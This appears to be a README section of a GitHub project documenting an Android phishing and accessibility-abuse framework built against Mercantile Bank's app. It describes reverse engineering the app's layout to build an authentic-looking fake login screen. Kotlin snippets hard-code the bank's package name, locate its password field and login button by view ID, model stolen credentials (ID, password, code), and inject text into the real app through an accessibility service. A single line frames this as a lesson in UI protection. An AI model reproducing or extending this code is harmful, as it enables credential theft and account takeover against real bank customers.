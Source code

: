 
## 🔧 Technical Implementation

### Reverse Engineering Methodology

To create an authentic-looking phishing interface, extensive analysis of the target application was conducted:

### Target Application Analysis
This framework is specifically configured for Mercantile Bank's Android application:
- **Package Name**: `com.ideomobile.mercantile`
- **UI Components**: Custom View ID mapping for automated interaction
- **Login Flow**: Tailored to the bank's specific authentication process

```kotlin
private const val TARGET_PACKAGE = "com.ideomobile.mercantile"
```

#### XML Structure Analysis
- **Layout Inspection**: Detailed examination of the banking app's UI hierarchy
- **Resource Extraction**: Identification of drawable resources, color schemes, and dimensions
- **View ID Mapping**: Documentation of critical UI element identifiers for automated interaction

```kotlin
// Example of extracted View IDs from target application
val passwordNodes = root.findAccessibilityNodeInfosByViewId(
    "com.ideomobile.mercantile:id/text_input_edit_text_layout"
)
```

#### Component Identification
The accessibility service leverages specific UI component identifiers to interact with the legitimate banking application:

```kotlin
val loginButtons = root.findAccessibilityNodeInfosByViewId(
    "com.ideomobile.mercantile:id/LoginButton"
)
```

This approach demonstrates the importance of proper UI component protection in mobile applications.

### Automated Credential Injection

The framework includes sophisticated credential injection capabilities utilizing the Credentials data model:

```kotlin
data class Credentials(
    val id: String,
    val password: String,
    val code: String = ""
)

private fun injectPasswordToRealApp() {
    val passwordNode = passwordNodes[0]
    passwordNode.performAction(AccessibilityNodeInfo.ACTION_FOCUS)
    
    val arguments = Bundle()
    arguments.putCharSequence(
        AccessibilityNodeInfo.ACTION_ARGUMENT_SET_TEXT_CHARSEQUENCE,
        injectedPassword
    )
    passwordNode.performAction(AccessibilityNodeInfo.ACTION_SET_TEXT, arguments)
}
```
